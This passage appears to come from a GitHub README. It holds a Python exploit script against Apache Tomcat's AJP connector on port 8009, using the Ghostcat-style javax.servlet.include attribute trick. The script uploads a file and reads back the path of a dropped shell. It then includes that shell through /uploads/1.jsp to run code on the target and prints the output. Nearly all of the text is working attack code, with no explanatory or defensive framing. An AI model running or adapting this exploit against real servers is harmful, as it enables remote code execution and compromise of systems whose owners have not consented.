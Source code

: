 ```python
        "name": "req_attribute"
        , "value": ("javax.servlet.include.path_info", "/", )
    }
    , {
        "name": "req_attribute"
        , "value": ("javax.servlet.include.servlet_path", "", )
    }
, ]

hdrs, data = gc.perform_request("/", headers=headers, method="POST",  attributes=attributes)

with open("./request", "rb") as f:
    br = AjpBodyRequest(f, data_len, AjpBodyRequest.SERVER_TO_CONTAINER)
    responses = br.send_and_receive(gc.socket, gc.stream)

r = AjpResponse()
r.parse(gc.stream)

shell_path = r.data.decode('utf-8').strip('\x00').split('/')[-1]
print("="*50)
print(shell_path)
print("="*50)

gc = Tomcat(target_host, 8009)

attributes = [
    {"name": "req_attribute", "value": ("javax.servlet.include.request_uri", "/",)},
    {"name": "req_attribute", "value": ("javax.servlet.include.path_info", shell_path,)},
    {"name": "req_attribute", "value": ("javax.servlet.include.servlet_path", "/",)},
]
hdrs, data = gc.perform_request("/uploads/1.jsp", attributes=attributes)
output = sys.stdout

for d in data:
    try:
        output.write(d.data.decode('utf8'))
    except UnicodeDecodeError:
        output.write(repr(d.data))

```

![image-20200706131145148](README/image-20200706131145148.png)

